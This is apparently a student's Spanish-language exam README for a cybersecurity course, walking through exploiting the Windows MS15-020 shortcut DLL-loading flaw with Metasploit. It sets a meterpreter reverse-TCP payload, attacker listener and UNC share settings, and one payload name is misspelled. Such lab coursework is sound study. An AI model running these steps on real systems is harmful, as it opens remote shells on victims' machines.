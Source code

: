 # ciberseguridad-2019-1
Repositorio para Ciberseguridad 2019-I
Parcial Ciberseguridad 2019-1 

Juan Esteban Monsalve Echeverry - 1036397191 

Vulnerabilidad 

MS15-020: Una vulnerabilidad en Windows podría permitir la ejecución remota de código 

Las vulnerabilidades podrían permitir la ejecución remota de código si un atacante correctamente convence a un usuario visita un sitio web especialmente diseñado, abra un archivo especialmente diseñado o abrir un archivo en un directorio de trabajo que contiene un archivo DLL especialmente diseñado. 
Publicado: marzo 10, 2015

Sistema Operativo 
Windows XP, Windows 7 

Software 
Sistema opertativo: Kali Linux 
Herramienta: 
Metaexploit 
Instructivo 

msf > use exploit/windows/fileformat/ms15_020_shortcut_icon_dllloader 

msf exploit(ms15_020_shortcut_icon_dllloader) > set payload windows/meterpreter/reverse_tcp 
payload => windows/meterpreter/reverse_tcp 

msf exploit(ms15_020_shortcut_icon_dllloader) > set lhost 192.168.0.11 
lhost=> 192.168.0.11 

msf exploit(ms15_020_shortcut_icon_dllloader) > set UNCHOST 192.168.0.10 
UNCHOST => 192.168.0.10 

msf exploit(ms15_020_shortcut_icon_dllloader) > set UNCSHARE share 
UNCSHARE => share 

msf exploit(ms15_020_shortcut_icon_dllloader) > exploit

----------------------------------------------------------------------------------------------------------
use exploit/multi/handler 

set payload windows/meterpreter/reverser_tcp 

set lhost 192.168.10.1

----------------------------------------------------------------------------------------------------------
Video Demo



----------------------------------------------------------------------------------------------------------

Referencias

http://da1sy.cn/2018/05/MS15-020/
https://github.com/rapid7/metasploit-framework/pull/4911
https://www.rapid7.com/db/vulnerabilities/WINDOWS-HOTFIX-MS15-020
https://www.rapid7.com/db/modules/exploit/windows/fileformat/ms15_020_shortcut_icon_dllloader 
